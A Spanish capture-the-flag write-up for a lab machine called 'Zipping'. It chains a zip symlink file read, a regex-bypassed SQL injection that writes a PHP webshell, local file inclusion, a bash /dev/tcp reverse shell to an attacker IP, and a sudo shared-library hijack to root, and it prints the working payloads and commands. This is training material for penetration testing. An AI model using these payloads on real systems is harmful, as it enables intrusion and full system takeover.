








Resumen de Explotación
Resumen del proceso: La máquina objetivo alojaba una aplicación web de venta de relojes con funcionalidad de subida de archivos ZIP. Explotando una vulnerabilidad de path traversal mediante enlaces simbólicos dentro de archivos ZIP comprimidos, conseguí acceso de lectura a archivos arbitrarios del sistema.
Mediante esta técnica, extraje el código fuente de la aplicación, revelando credenciales de base de datos MySQL y una vulnerabilidad de inyección SQL en product.php que, aunque protegida por un filtro preg_match(), pude bypassear utilizando el carácter %0A (nueva línea).
Aprovechando que el usuario de MySQL era root con privilegio FILE, utilicé la inyección SQL UNION para escribir una webshell PHP en /dev/shm/. Posteriormente, explotando un fallo de Local File Inclusion (LFI) en index.php, conseguí ejecutar la webshell y obtener acceso inicial como el usuario rektsu.
Para la escalada de privilegios, identifiqué que el usuario tenía permisos sudo sobre el binario /usr/bin/stock. Mediante análisis con ltrace, descubrí que el programa intentaba cargar una librería compartida desde /home/rektsu/.config/libcounter.so, que no existía. Creé una librería maliciosa con un constructor que ejecutaba /bin/bash, y al ejecutar el binario con sudo, obtuve una shell como root.
Tecnologías/Exploits: Zip symlink path traversal, bypass de filtros regex en PHP con %0A, inyección SQL UNION, escritura de archivos mediante INTO OUTFILE de MySQL, Local File Inclusion (LFI), hijacking de librerías compartidas en binarios ELF.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los puertos abiertos y servicios en ejecución:

El escaneo revela dos servicios principales: SSH en el puerto 22 y un servidor web HTTP en el puerto 80. No parece haber configuraciones de virtual hosting adicionales.
Enumeración Web Inicial
Al navegar al puerto 80, encuentro una aplicación web de venta de relojes. Ejecutando whatweb obtengo información técnica del servidor:
http://10.10.11.229 [200 OK] Apache[2.4.54], Bootstrap, Country[RESERVED][ZZ],
Email[info@website.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.54 (Ubuntu)],
IP[10.10.11.229], JQuery[3.4.1], Meta-Author[Devcrud], PoweredBy[precision],
Script, Title[Zipping | Watch store]Aunque whatweb no detecta PHP explícitamente, al navegar por la web encuentro un botón que redirige a upload.php, confirmando que el backend utiliza PHP.
Funcionalidad de Subida de Archivos
La ruta más interesante es upload.php, que permite subir archivos ZIP:

Ejecutando gobuster para descubrir directorios adicionales, encuentro:

El directorio /uploads no tiene directory listing habilitado, y /assets no contiene nada relevante. Sin embargo, en /shop encuentro una estructura interesante:

Análisis de Funcionalidad y Vectores de Ataque
Investigando product.php
Al acceder a product.php directamente, obtengo un error:

Probando con parámetros como ?id=1 devuelve error 500, mientras que ?id=a me redirige a /shop/index.php. Este comportamiento sugiere procesamiento de entrada y posibles vulnerabilidades.
Probando la Subida de Archivos ZIP
Al subir un archivo ZIP de prueba, la aplicación me devuelve un enlace que funciona y menciona que el staff revisará el contenido:

Dado el nombre de la máquina ("zipping"), sospecho que la vulnerabilidad principal podría estar relacionada con el manejo de archivos ZIP, posiblemente path traversal mediante enlaces simbólicos o explotación del proceso de descompresión.
Explotación: Zip Symlink Path Traversal
Decido probar una técnica de path traversal utilizando enlaces simbólicos dentro de archivos ZIP. Esta técnica explota el hecho de que algunos sistemas descomprimen archivos ZIP sin validar adecuadamente si contienen symlinks que apuntan a ubicaciones arbitrarias del sistema.
Creando el Payload
Primero, creo un archivo PDF vacío que es en realidad un enlace simbólico a /etc/passwd:
ln -s /etc/passwd test.pdfLuego lo comprimo en un ZIP preservando la referencia del symlink usando la opción --symlinks:
zip --symlinks xd.zip test.pdfLa salida confirma que el archivo se ha agregado:
adding: test.pdf (stored 0%)Verificando el Path Traversal
Subo el archivo ZIP a la aplicación y al visitar la URL proporcionada, confirmo que puedo leer /etc/passwd de la máquina víctima:
curl http://10.10.11.229/uploads/711b73f8f7ddf6601a040a82bf6680a5/test.pdf | grep bashEl resultado muestra usuarios con shell bash:
root:x:0:0:root:/root:/bin/bash
rektsu:x:1001:1001::/home/rektsu:/bin/bash¡Tengo path traversal confirmado! Esto me permite leer archivos arbitrarios del sistema a los que el usuario del servidor web tenga acceso.
Automatización del Proceso
Para facilitar la lectura de archivos, creo un script Python que automatiza el proceso de creación del ZIP con symlink, subida y descarga del contenido. Esto me permite explorar el sistema de archivos de manera eficiente.
Extracción de Código Fuente y Credenciales
Utilizando el path traversal, leo el código fuente de la aplicación web. En /var/www/html/shop/functions.php encuentro credenciales de base de datos:
<?php
function pdo_connect_mysql() {
// Update the details below with your MySQL details
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'root';
$DATABASE_PASS = 'MySQL_P@ssw0rd!';
$DATABASE_NAME = 'zipping';
try {
return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8',
$DATABASE_USER, $DATABASE_PASS);
} catch (PDOException $exception) {
exit('Failed to connect to database!');
}
}Es interesante notar que el usuario de MySQL es root, lo que podría tener implicaciones de seguridad significativas más adelante.
Analizando product.php
Al examinar el código de product.php, entiendo el comportamiento observado anteriormente. El archivo contiene una vulnerabilidad de inyección SQL, pero está protegida por un filtro de caracteres:
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
$id = $_GET['id'];
// Filtering user input for letters or special characters
if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
header('Location: index.php');
} else {
// Prepare statement and execute, but does not prevent SQL injection
$stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
$stmt->execute();
$product = $stmt->fetch(PDO::FETCH_ASSOC);
if (!$product) {
exit('Product does not exist!');
}
}
} else {
exit('No ID provided!');
}
?>El código usa prepare() pero luego interpola directamente la variable $id en la query, haciéndola vulnerable a inyección SQL. El filtro preg_match() intenta bloquear caracteres especiales y letras, pero tiene una debilidad.
Entendiendo el Error 500
Al llamar a product.php directamente obtengo error 500 porque este script está diseñado para ser incluido desde otra página:

Examinando /shop/index.php, veo cómo funciona el sistema de inclusión:
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>Este código incluye functions.php que proporciona la conexión PDO necesaria. También noto un patrón de inclusión potencialmente vulnerable con el parámetro page, aunque el check de file_exists() y la concatenación de .php dificultan su explotación inmediata.
Bypass del Filtro preg_match() e Inyección SQL
Identificando el Bypass
Tras experimentar con diferentes payloads, descubro que puedo bypassear el primer check de preg_match() utilizando %0A (carácter de nueva línea). Además, puedo bypassear el segundo check terminando la query con un número.
Por ejemplo, esta URL devuelve el primer reloj exitosamente:
http://10.10.11.229/shop/index.php?page=product&id=%0A'or+1=1--+-1Probando con SQLMap
Intento automatizar la explotación con sqlmap utilizando las opciones --prefix y --suffix:
sqlmap -u "http://10.10.11.229/shop/index.php?page=product&id=1" --prefix "%0A'" --suffix="-- -1" -p id --batchSQLMap confirma la vulnerabilidad de inyección SQL mediante stacked queries:
---
Parameter: id (GET)
Type: stacked queries
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: page=product&id=1
';SELECT SLEEP(5)'-- -1
---Sin embargo, esta técnica es lenta. Especificando la técnica UNION, que es más eficiente, obtengo mejores resultados:
sqlmap -u "http://10.10.11.229/shop/index.php?page=product&id=*" --prefix "%0A'" --suffix="-- -1" -p id --batch --technique=USQLMap encuentra una inyección UNION válida:
---
Parameter: #1* (URI)
Type: UNION query
Title: Generic UNION query (NULL) - 8 columns
Payload: http://10.10.11.229/shop/index.php?page=product&id=
' UNION ALL SELECT NULL,NULL,NULL,CONCAT(CONCAT('qvpbq','zWkYmxHsuJaSOwYtwOLmKxQQKniHkiatglNcdvSB'),'qbzzq'),NULL,NULL,NULL,NULL-- -1
---Enumeración de Bases de Datos
Enumero las bases de datos disponibles:
information_schema, mysql, performance_schema, sys, zippingLa base de datos zipping solo contiene datos de prueba sin información útil. Sin embargo, al revisar information_schema para verificar privilegios, descubro algo crucial:
| 'root'@'localhost' | YES | def | FILEEl usuario de MySQL tiene el privilegio FILE, lo que significa que puedo interactuar con el sistema de archivos dentro de los límites de acceso de MySQL. Según la documentación de MySQL, esto permite leer y escribir archivos en el servidor.
Escritura de Webshell mediante SQL Injection
Estrategia de Explotación
Con el privilegio FILE, puedo usar la inyección SQL para escribir archivos en el servidor. Mi objetivo es escribir una webshell PHP que me permita ejecutar comandos.
Aunque intento usar sqlmap para escribir archivos, no lo consigo, así que procedo manualmente. Construyo esta query de inyección SQL UNION:
UNION ALL SELECT NULL,NULL,NULL,'<?php system($_GET["cmd"]); ?>',NULL,NULL,NULL,NULL INTO OUTFILE '/dev/shm/xd.php'-- -1La URL completa con URL encoding es:
http://10.10.11.229/shop/index.php?page=product&id=%0A%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,%27%3C?php%20system($_GET%5B%22cmd%22%5D);%20?%3E%27,NULL,NULL,NULL,NULL%20INTO%20OUTFILE%20%27/dev/shm/xd.php%27--%20-1Selección del Directorio de Escritura
Inicialmente intenté escribir en /tmp, pero Apache parece estar usando un entorno sandbox que no me permite acceder a ese directorio. En su lugar, consigo escribir en /dev/shm/, que es un sistema de archivos temporal en memoria.
Verifico que la webshell se ha escrito correctamente usando el path traversal descubierto anteriormente:
============================================================
Contents of /dev/shm/xd.php:
============================================================
\N \N \N <?php system($_GET["cmd"]); ?> \N \N \N \NLocal File Inclusion y Acceso Inicial
Explotando el LFI
Recordando la vulnerabilidad potencial de LFI en /shop/index.php, intento acceder a mi webshell. Aunque el código añade .php al final y verifica la existencia del archivo, puedo aprovechar que mi archivo está en /dev/shm/xd.php:
http://10.10.11.229/shop/index.php?page=/dev/shm/xd&cmd=idLa webshell funciona:

Obteniendo Reverse Shell
Con ejecución de comandos confirmada, me envío una reverse shell usando este payload:
bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"URL encoded completa:
http://10.10.11.229/shop/index.php?page=/dev/shm/xd&cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.2/443 0>%261"Configuro un listener de netcat:
sudo nc -lvnp 443Y recibo la conexión exitosamente como el usuario rektsu:
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.229] 37454
bash: cannot set terminal process group (1133): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$Ahora tengo acceso como rektsu y puedo leer la flag de usuario.
Escalada de Privilegios: Shared Library Hijacking
Enumeración de Privilegios Sudo
Verifico los privilegios sudo del usuario rektsu:
sudo -lEl resultado muestra algo interesante:
Matching Defaults entries for rektsu on zipping:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User rektsu may run the following commands on zipping:
(ALL) NOPASSWD: /usr/bin/stockEl usuario puede ejecutar /usr/bin/stock con sudo sin contraseña. Verifico el tipo de archivo:
file /usr/bin/stock/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42,
for GNU/Linux 3.2.0, not strippedEs un binario ELF de 64 bits, enlazado dinámicamente y no despojado de símbolos.
Análisis del Binario
Al ejecutar el binario, solicita una contraseña:
sudo /usr/bin/stockEnter the password:Usando strings sobre el binario, encuentro la contraseña: St0ckM4nager.
El programa parece ser un sistema simple de gestión de inventario que almacena valores en /root/.stock.csv. El menú principal muestra:
================== Stock Actual ==================
Colour Black Gold Silver
Amount 4 2237 5
Quality Excelent Average Poor
Amount 4 15 2227
Exclusive Yes No
Amount 4 2241
Warranty Yes No
Amount 4 2241Análisis Dinámico con ltrace
Al no encontrar vulnerabilidades evidentes mediante pruebas manuales, uso ltrace con la opción -s 4096 para capturar llamadas a funciones de librería sin truncamiento:
ltrace -s 4096 ./stockEl output revela una llamada crucial:
printf("Enter the password: ") = 20
fgets(Enter the password: St0ckM4nager
"St0ckM4nager\n", 30, 0x7ff94db528e0) = 0x7ffd17efa040
strchr("St0ckM4nager\n", '\n') = "\n"
strcmp("St0ckM4nager", "St0ckM4nager") = 0
dlopen("/home/rektsu/.config/libcounter.so0", 1) = nil¡El binario intenta cargar una librería compartida desde /home/rektsu/.config/libcounter.so! La llamada a dlopen() retorna nil, lo que significa que la librería no existe.
Verificando la Ruta
Confirmo que el directorio existe pero está vacío:
ls -la /home/rektsu/.configtotal 8
drwxrwxr-x 2 rektsu rektsu 4096 May 4 2023 .
drwxr-x--x 7 rektsu rektsu 4096 Aug 7 2023 ..Explotación mediante Librería Maliciosa
Esta es una vulnerabilidad perfecta para shared library hijacking. Si coloco una librería maliciosa en la ruta esperada, el binario la cargará cuando se ejecute con sudo, permitiéndome ejecutar código como root.
Creo un archivo en C con una función constructor que se ejecutará automáticamente al cargarse la librería:
#include <stdlib.h>
__attribute__ ((__constructor__))
void shell(void){
system("/bin/bash");
}El atributo __constructor__ marca la función shell() como un constructor, lo que garantiza que se ejecute inmediatamente cuando la librería sea cargada por dlopen().
Compilación y Transferencia
Compilo el código como librería compartida usando gcc:
gcc -shared -o libcounter.so -fPIC xd.cLas opciones importantes son:
-shared: Produce una librería compartida-fPIC: Genera código independiente de posición (Position Independent Code), necesario para librerías compartidas
Transfiero la librería a la máquina víctima directamente en el directorio esperado:
ls -la /home/rektsu/.configtotal 24
drwxrwxr-x 2 rektsu rektsu 4096 Dec 29 17:07 .
drwxr-x--x 7 rektsu rektsu 4096 Aug 7 2023 ..
-rw-r--r-- 1 rektsu rektsu 15376 Dec 29 16:57 libcounter.soObteniendo Root
Con la librería maliciosa en su lugar, ejecuto el binario con sudo:
sudo /usr/bin/stockIntroduzco la contraseña St0ckM4nager, y cuando el programa intenta cargar libcounter.so mediante dlopen(), mi constructor se ejecuta y obtengo una shell como root:
Enter the password: St0ckM4nager
root@zipping:/home/rektsu/.config#Ahora tengo acceso completo como root y puedo leer la flag final, completando así la máquina.